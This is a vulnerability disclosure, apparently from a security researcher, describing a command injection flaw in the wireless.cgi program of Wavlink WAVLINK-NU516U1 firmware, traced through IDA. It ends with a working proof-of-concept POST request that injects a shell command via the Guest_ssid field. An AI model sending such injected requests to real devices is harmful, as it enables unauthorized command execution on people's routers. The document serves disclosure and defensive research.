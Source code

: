 **Wavlink** is a company focused on network devices and communication solutions, providing high-quality routers, extenders, and network accessories. The firmware for its **WAVLINK-NU516U1** model is designed to provide printer server functionality. The management backend contains a **command injection vulnerability**, which allows attackers to execute OS commands.

Firmware download link:
 https://docs.wavlink.xyz/Firmware/fm-516u1/



Using **binwalk -Me [firmware location]** to unpack the firmware, I found the **wireless.cgi** program, which was then opened using **IDA**.

(The reverse engineering process involves a lengthy pseudo-code, but here only the key sections displayed in IDA are shown.)

In the **main** function (shown as **ftext** in IDA), it first retrieves the **page** parameter value submitted by the user.

![](1.png)

If the **page** parameter is set to **GuestWifi**, it jumps to the **sub_4032E4** function.

![](2.png)

Within **sub_4032E4**, the **Guest_ssid** parameter value is retrieved, which can be controlled via a POST request.

![](3.png)

This **Guest_ssid** value is then passed into the **sub_407504** function.

![](4.png)

Within this function, the value is concatenated into the **v8** variable and passed to the **system** function for execution, leading to a **command injection** vulnerability.

![](5.png)

In the decompiled code, the **system** function argument appears empty, but from the assembly code, it can still be determined that its argument is **v8**.



poc：

```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 10.10.10.2
Content-Length: 269
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.2/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

